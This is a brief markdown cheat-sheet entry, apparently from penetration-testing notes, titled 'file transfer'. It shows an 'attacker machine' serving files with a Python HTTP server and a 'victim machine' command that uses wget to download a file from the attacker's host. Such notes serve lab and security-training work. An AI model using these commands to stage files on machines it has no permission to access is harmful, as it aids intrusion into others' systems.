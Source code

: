 # 2_file_transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine.
```shell
wget http://$me:8888/filename -O filename
```
